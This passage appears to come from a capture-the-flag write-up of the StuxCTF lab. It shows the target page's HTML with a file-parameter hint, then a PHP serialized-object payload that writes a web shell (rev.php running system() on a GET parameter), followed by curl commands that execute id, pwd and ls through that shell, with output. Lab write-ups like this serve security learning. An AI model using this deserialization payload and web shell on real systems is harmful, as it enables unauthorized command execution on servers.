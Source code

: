 ```bash
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar"><br />
                <span class="sr-only">Toggle navigation</span><br />
              </button><br />
              <a class="navbar-brand" href="index.php">Home</a><br />
            </div><br />
          </div><br />
        </nav><br />
        <!-- hint: /?file= --><br />
        <div class="container"><br />
            <div class="jumbotron"><br />
				<center><br />
					<h1>Follow the white rabbit..</h1><br />
				</center><br />
            </div><br />
        </div>            <br />
        <script src="assets/js/jquery-1.11.3.min.js"></script><br />
        <script src="assets/js/bootstrap.min.js"></script><br />
    </body><br />
</html><br />

```

<br>

<br>

<p>It is a php code.</p>



<p>O:4:"file":2:{s:4:"file";s:7:"rev.php";s:4:"data";s:28:"<?php system($_GET["cmd"])?>";}</p>


![image](https://github.com/user-attachments/assets/02004eb3-ee7e-477b-b064-953ac4430832)

<br>

<br>

![image](https://github.com/user-attachments/assets/fdc8a534-6517-42a8-a826-e1c0ffb7dbd4)

<br>

![image](https://github.com/user-attachments/assets/abe93ff2-d22b-4f15-bc50-275ea52b0502)


<br>

```bash
:~/StuxCTF# curl -s http://stuxctf.thm//4731502893726489553913132817668435073257703
:~/StuxCTF# curl -s http://stuxctf.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/rev.php --get --data-urlencode "cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
:~/StuxCTF# curl -s http://stuxctf.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/rev.php --get --data-urlencode "cmd=pwd"
/var/www/html/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
:~/StuxCTF# curl -s http://stuxctf.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/rev.php --get --data-urlencode "cmd=ls"
assets
index.php
rev.php
shell.php
```